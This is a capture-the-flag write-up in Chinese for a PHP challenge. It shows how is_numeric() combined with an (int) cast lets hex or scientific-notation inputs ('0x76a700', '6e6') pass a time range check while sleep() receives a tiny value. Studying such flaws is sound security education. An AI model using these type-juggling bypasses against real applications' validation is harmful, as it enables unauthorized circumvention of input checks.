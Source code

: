 # jChallenge
```php 
<?php
show_source(__FILE__);
$flag = "xxxx";
if(isset($_GET['time'])){ 
        if(!is_numeric($_GET['time'])){ 
                echo 'The time must be number.'; 
        }else if($_GET['time'] < 60 * 60 * 24 * 30 * 2){ 
                        echo 'This time is too short.'; 
        }else if($_GET['time'] > 60 * 60 * 24 * 30 * 3){ 
                        echo 'This time is too long.'; 
        }else{ 
                sleep((int)$_GET['time']); 
                echo $flag; 
        } 
                echo '<hr>'; 
}
?>
```

# Solution
```
>>> 60 * 60 * 24 * 30 * 2      
5184000                        
>>> 60 * 60 * 24 * 30 * 3      
7776000                        
>>> hex(5184000)               
'0x4f1a00'                     
>>> hex(7776000)               
'0x76a700'                     
```
要是传入普通的数字比如 5184001 ，固然能过掉前两个if判断，但sleep函数就要让你等到天荒地老了。

我们通过GET或者POST传入的参数，是作为字符串保存的。is_numeric()支持普通数字型字符串、科学记数法型字符串、部分支持十六进制0x型字符串。而强制类型转换int，不能正确转换的类型有十六进制型字符串、科学计数法型字符串（部分）。

测试代码：
```php
<?php
show_source(__FILE__);
$temp = $_GET['temp'];
echo (int)$temp;
?> 
```
当传入参数为 `?temp=0x76a701` 之类的十六进制型字符串，
当传入参数如`?temp=0e11`之类的科学计数法型字符串，会输出`0`。
当传入参数如`?temp=4e11`之类的科学计数法型字符串，会输出`4`

所以最后的payload如下：
payload：
```
?time=0x76a700
```

payload2:
```
?time=6e6
```

# Refference
+ [代码小审计 php篇 Challenge 1](http://www.freebuf.com/column/154097.html)
+ [一题关于PHP的CTF](http://www.cnblogs.com/xishaonian/p/6724964.html)